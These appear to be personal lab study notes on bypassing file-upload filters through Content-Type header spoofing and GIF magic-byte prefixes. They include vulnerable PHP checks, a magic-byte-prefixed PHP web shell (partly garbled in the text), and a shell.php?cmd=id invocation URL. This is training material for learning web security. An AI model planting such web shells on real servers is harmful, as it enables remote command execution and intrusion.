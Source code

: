 `Only images are allowed` our case study

many modern web servers and web applications also test the content of the uploaded file to ensure it matches the specified type.

There are two common methods for validating the file content: `Content-Type` Header or `File Content`

`Content-Type Header`:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

our browsers set this, this operation is a client-side operation,

Discovery/Web-Content/web-all-content-types.txt

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

```bash
AhmaDb0x@htb[/htb]$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
AhmaDb0x@htb[/htb]$ cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
run the above scan to find what Content-Types are allowed.

`Content-Type: image/jpeg`  ::::
This tells the server, **"Hey, this file is a JPEG image!"**

Some servers check the **first few bytes** (magic bytes) of a file to detect if it’s truly an image
A **real JPEG** starts with these bytes <> `FF D8 FF E0`

**fake an image by adding image magic bytes** before PHP code:
```php
GIF89a; <?phstem($_GET['cmd']); ?>
```



![[ttxr8iu7.png]]

`File successfully uploaded`
```
http://SERVER_IP:PORT/profile_images/shell.php?cmd=id
```
----


>**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as `POST` data), in which case we will need to modify the main Content-Type header.

----------

## MIME-Type


The second and more common type of file content validation is testing the uploaded file's `MIME-Type`. `Multipurpose Internet Mail Extensions (MIME)` is an internet standard that determines the type of a file through its general format and bytes structure.


done by inspecting the first few bytes of the file's content, which contain the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

example, if a file starts with (`GIF87a` or `GIF89a`), this indicates that it is a `GIF` image

plaintext is usually considered a `Text` file

>change the first bytes of any file to the GIF magic bytes, its MIME type would be changed to a GIF image >< regardless of its remaining content or extension


>Many other image types have non-printable bytes for their file signatures


```bash
AhmaDb0x@htb[/htb]$ echo "this is a text file" > text.jpg 
AhmaDb0x@htb[/htb]$ file text.jpg 
text.jpg: ASCII text
```
`type is `ASCII text`, even though its extension is `.jpg``

```bash
AhmaDb0x@htb[/htb]$ echo "GIF8" > text.jpg 
AhmaDb0x@htb[/htb]$file text.jpg
text.jpg: GIF image data
```

back-end:
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

![[5aymkfjt.png]]
`File successfully uploaded`

but check client-valid > black-list > white-list

```bash
http://SERVER_IP:PORT/profile_images/shell.php?cmd=id
```

